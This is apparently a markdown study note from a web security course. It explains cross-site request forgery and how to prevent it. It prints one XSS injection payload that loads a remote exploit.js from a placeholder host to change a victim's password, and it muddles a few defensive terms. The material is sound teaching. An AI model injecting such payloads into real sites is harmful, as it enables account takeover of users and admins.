 ﻿---
sticker: lucide//curly-braces
---

The third type of front end vulnerability that is caused by unfiltered user input is [Cross-Site Request Forgery (CSRF)](https://owasp.org/www-community/attacks/csrf).`CSRF` attacks may utilize`XSS` vulnerabilities to perform certain queries, and`API` calls on a web application that the victim is currently authenticated to. This would allow the attacker to perform actions as the authenticated user. It may also utilize other vulnerabilities to perform the same functions, like utilizing HTTP parameters for attacks.

A common`CSRF` attack to gain higher privileged access to a web application is to craft a`JavaScript` payload that automatically changes the victim's password to the value set by the attacker. Once the victim views the payload on the vulnerable page (e.g., a malicious comment containing the`JavaScript``CSRF` payload), the`JavaScript` code would execute automatically. It would use the victim's logged-in session to change their password. Once that is done, the attacker can log in to the victim's account and control it.

`CSRF` can also be leveraged to attack admins and gain access to their accounts. Admins usually have access to sensitive functions, which can sometimes be used to attack and gain control over the back-end server (depending on the functionality provided to admins within a given web application). Following this example, instead of using`JavaScript` code that would return the session cookie, we would load a remote`.js` (`JavaScript`) file, as follows:

Code: html

```html
"><script src=//www.example.com/exploit.js></script>
```

The`exploit.js` file would contain the malicious`JavaScript` code that changes the user's password. Developing the`exploit.js` in this case requires knowledge of this web application's password changing procedure and`APIs`. The attacker would need to create`JavaScript` code that would replicate the desired functionality and automatically carry it out (i.e.,`JavaScript` code that changes our password for this specific web application).

---

## Prevention

Though there should be measures on the back end to detect and filter user input, it is also always important to filter and sanitize user input on the front end before it reaches the back end, and especially if this code may be displayed directly on the client-side without communicating with the back end. Two main controls must be applied when accepting user input:

|Type|Description|
|---|---|
|`Sanitization`|Removing special characters and non-standard characters from user input before displaying it or storing it.|
|`Validation`|Ensuring that submitted user input matches the expected format (i.e., submitted email matched email format)|

Furthermore, it is also important to sanitize displayed output and clear any special/non-standard characters. In case an attacker manages to bypass front end and back end sanitization and validation filters, it will still not cause any harm on the front end.

Once we sanitize and/or validate user input and displayed output, we should be able to prevent attacks like`HTML Injection`,`XSS`, or`CSRF`. Another solution would be to implement a [web application firewall (WAF)](https://en.wikipedia.org/wiki/Web_application_firewall), which should help to prevent injection attempts automatically. However, it should be noted that WAF solutions can potentially be bypassed, so developers should follow coding best practices and not merely rely on an appliance to detect/block attacks.

As for`CSRF`, many modern browsers have built-in anti-CSRF measures, which prevent automatically executing`JavaScript` code. Furthermore, many modern web applications have anti-CSRF measures, including certain HTTP headers and flags that can prevent automated requests (i.e.,`anti-CSRF` token, or`http-only`/`X-XSS-Protection`). Certain other measures can be taken from a functional level, like requiring the user to input their password before changing it. Many of these security measures can be bypassed, and therefore these types of vulnerabilities can still pose a major threat to the users of a web application. This is why these precautions should only be relied upon as a secondary measure, and developers should always ensure that their code is not vulnerable to any of these attacks.

This [Cross-Site Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html) from OWASP discusses the attack and prevention measures in greater detail.

[Previous](Cross-Site%20Scripting%20(XSS).md)
